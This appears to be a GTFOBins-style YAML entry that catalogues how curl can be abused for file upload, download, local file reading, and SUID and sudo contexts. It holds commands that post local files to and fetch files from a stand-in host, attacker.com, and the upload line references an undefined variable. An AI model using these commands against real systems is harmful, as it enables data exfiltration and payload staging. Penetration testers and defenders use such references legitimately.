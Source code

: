 ```yaml
---
functions:
  file-upload:
    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Omit the `@` to send hard-coded data.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        curl -X POST -d @$file_to_send $URL
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        curl $URL -o $LFILE
  file-read:
    - description: The file path must be absolute.
      code: |
        LFILE=/tmp/file_to_read
        curl file://$LFILE
  suid:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        ./curl $URL -o $LFILE
  sudo:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        sudo -E curl $URL -o $LFILE
---
```

